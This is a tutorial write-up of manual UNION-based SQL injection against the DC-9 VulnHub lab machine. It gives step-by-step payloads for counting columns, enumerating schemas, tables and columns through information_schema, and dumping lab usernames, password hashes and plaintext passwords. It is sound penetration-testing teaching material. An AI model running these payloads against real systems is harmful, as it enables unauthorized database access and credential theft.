


# Example

I'm using DC-9 from VulnHub as an example.

What we are exploring:


How does it behave when searching for 'Tom':



Trying `Tom' OR '1' = '1` returns nothing

Trying a commentary: `Tom' -- -` returns the result normally, so we identified it is vulnerable to SQLi. This is the query we will be developing from.

So now, we need to define some stuff:

**1. What we think the query is:**

`SELECT * FROM USERS WHERE FIRST_NAME = 'userinput'-- -`

**2. What we want to do:**

Explore UNION queries to gather data.

**3. What do we need to do UNION:**

Understand the \* from the first query. Because UNION only works when the query is balanced in a sense that you need both the primary and the subquery to parse the same number of 'fields'.

We already have a pretty good indicator to how many fields that \* is representing, since the result returns 5 different values:

ID  
Name  
Position  
Phone  
Email

So this is at least 5 fields. To make sure this is the right answer, we can simply UNION SELECT like this:

```text
Tom' UNION SELECT 1,2,3,4,5-- -
```

You need to remember that the UNION SELECT is a subquery and it needs to respect the field number of the primary query.

When trying that query though, it returns nothing, this means that it actually don't have 5 fields. What we can do to discover how many are there, we can basically start from 1 field and increase the value each query until it returns correctly.

```text
Tom' UNION SELECT 1-- -
Tom' UNION SELECT 1,2-- -
Tom' UNION SELECT 1,2,3-- -
...
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

We can put that through a proxy \(I'm using OWASPZAP, but you can use BURP\). Or put that direct in the browser. Ill use the browser as example because its better to visualize and explain, but you should be doing all this inside your proxy.

When querying with 6 fields:

```text
Tom' UNION SELECT 1,2,3,4,5,6-- -
```

This is what we see:


So there are actually 6 fields, the Name field can be divided in FIRST\_NAME and LAST\_NAME

So the query becomes:

```text
SELECT ID, FIRST_NAME, LAST_NAME, POSITION, PHONE, MAIL FROM USERS WHERE FIRST_NAME = 'userinput'-- -
```

Now that we know how many fields there are, we can start gathering data, for example, which database we are in right now. Since the UNION subquery is already working, we can simply replace one of the 6 fields to something we want to:

```text
Tom' UNION SELECT database(),2,3,4,5,6-- -
```



So now we know that the database is Staff.

Now we can request information from the main 3 tables from the information\_schema database, which is like the metadata.

schema\_name inside INFORMATION\_SCHEMA.SCHEMATA = Stores database names  
INFORMATION\_SCHEMA.TABLES = Stores tables names  
INFORMATION\_SCHEMA.COLUMNS = Stores columns names

To gather database names, for example, we can:

```text
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata-- -
```

Which returns the current database name, however, we can use the LIMIT function to discover the other databases names:

```text
Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 1,1-- -
which returns:
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 2,1-- -
Which returns:
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>

Tom' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM information_schema.schemata LIMIT 3,1-- -
Which returns:
ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>
```

When it stops returning data, you know you verified all possible values.

Other way to gather this information is to use group\_concat, which puts every value in a single line:

```text
Tom' UNION SELECT group_concat(SCHEMA_NAME),2,3,4,5,6 FROM information_schema.schemata-- -
Which returns:
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>
```

**From now on, I'll be ommiting part of the output and formatting the important part for a better understanding.**

Since we discovered all the existent databases, now we need to discover the tables. Lets start with the staff db:

```text
Tom' UNION SELECT group_concat(TABLE_NAME),2,3,4,5,6 FROM information_schema.tables where table_schema = "Staff"-- -
Which returns:
StaffDetails
Users
```

So now we now that there are only two tables inside Staff database: StaffDetails and Users.

Now, lets discover the columns in each of this tables:

```text
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "StaffDetails"-- -
Which returns:
id
firstname
lastname
position
phone
email
reg_date
```

Now for Users:

```text
Tom' UNION SELECT group_concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff" AND table_name = "Users"-- -
Which returns:
UserID
Username
Password
```

Another way to discover where each column is located is using a second parameter in concat:

```text
Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "Staff"-- - 
Which returns:

StaffDetails:id
StaffDetails:firstname
StaffDetails:lastname
StaffDetails:position
StaffDetails:phone
StaffDetails:email
StaffDetails:reg_date
Users:UserID
Users:Username
Users:Password
```

Now, since we already discoverd the structure of the Staff table, we can do the same to the database users:

```text
search=Tom' UNION SELECT group_concat(TABLE_NAME,":",COLUMN_NAME),2,3,4,5,6 FROM information_schema.columns where table_schema = "users"-- - 
Which returns:

UserDetails:id
UserDetails:firstname
UserDetails:lastname
UserDetails:username
UserDetails:password
UserDetails:reg_date
```

After all this work, we can start analyzing the database and then gather information we consider useful. We have two different sets of username and passwords, one from Staff.Users and other from users.UserDetails

```text
Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- - 
Which returns:
admin:856f5de590ef37314e7c3bdf6f8a66dc

after brute-forcing it:
admin:transorbital1
```

```text
search=Tom' UNION SELECT group_concat(Username,":",Password),2,3,4,5,6 FROM users.UserDetails -- - 
Which returns:
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```

